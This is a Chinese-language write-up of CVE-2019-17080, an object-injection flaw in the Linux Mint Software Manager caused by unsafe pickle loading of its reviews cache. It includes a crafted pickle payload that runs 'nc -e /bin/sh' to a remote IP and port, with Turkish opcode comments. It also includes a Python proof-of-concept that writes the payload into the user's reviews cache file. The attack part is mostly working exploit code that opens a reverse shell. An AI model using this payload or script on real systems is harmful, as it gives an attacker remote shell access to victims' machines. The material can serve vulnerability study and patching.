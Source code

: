 # （CVE-2019-17080）Mintinstall object injection

> 原文：[http://book.iwonder.run/0day/Mintinstall/1.html](http://book.iwonder.run/0day/Mintinstall/1.html)

## 一、漏洞简介

Linux mint 软件管理器（v 7.9.5 / 9）由于配置错误而导致对象注入和任意代码执行。

Linux Mint Software Manager（v 7.9.5 / 9）由于配置错误而导致我们执行对象注入和任意代码

## 二、漏洞影响

Version: 7.9.9

## 三、复现过程

```
mintinsall 
```

我们运行 Mint 软件管理器还会检查是否有新注释，如果[new-reviews.list](https://community.linuxmint.com/data/) 下载中有 新注释并写入文件。

如果有新评论，请从文件[new-reviews.list](https://community.linuxmint.com/data/)下载并写入文件

![](img/8f4b41614d19a3adfd7ca2eadd538f5b.png)

```
code mintinstall.py 
```

首次启动软件管理器时，它会从评论模块调用 ReviewCache（）类。

![](img/da741a80d5498e0bd54a6531ee849b7a.png)

### 它如何处理数据？

```
code reviews.py 
```

当 ReviewCache 类启动（init）时，它将调用 _load_cache（）函数。

![](img/2144dfcd871d5e4d59ac2b0c98be88d6.png)

加载缓存功能读取 REVIEWS_CACHE 变量中的文件，并在 pickle 模块的帮助下，对文件中的数据进行反序列化并在内存中保存一些值

![](img/cf2fedfbbb4dc2842670ed57bdb8c71b.png)

![](img/25b075d8e42a1b1ed9bd2e3863be7daf.png)

![](img/08cabe1abc8daadca8918bed0cdcc192.png)

当我检查文件时，看起来好像可以写文件。

![](img/48d4756ac5dcd300cdad0f2bc3087b8a.png)

[Pickle](https://docs.python.org/3.6/library/pickle.html) 因为我们可以使用模块执行序列化/反序列化操作，所以可以包含模块并使用 reduce 方法执行任意代码。

![](img/e8b4268c232bdaa22e951b261dbcc674.png)

如果您尝试反序列化文件，则我们的恶意代码将起作用。

```
cos 
system 
(S'nc -e /bin/sh 192.168.2.138 4545' 
tR.
>>modül adı c{os}
>> fonksiyon
( >> işaretleyici nesnesi 
S >> tırnak sonuna kadar okuyup stack'e at
tR. >> stackte olanları çagır ve sonucu stacke yerleştir. 
```

![](img/108067bff4be84249ca5059833ebd7e1.png)

![alt-text](img/050261fa34230f5548ff738f5561b6e5.png)

poc

```
import os
import sys
def shellCode(payload):
    with open(f"{os.getenv('HOME')}/.cache/mintinstall/reviews.cache","w") as wb:
        wb.write(payload)
    print("[+] Start mintinstall")
if __name__=="__main__":
    shellCode(f"""cos\nsystem\n(S"nc -e /bin/sh {sys.argv[1]} {sys.argv[2]}"\ntR.""")
else:
    print("[!] exploit.py [IP] [PORT]") 
```

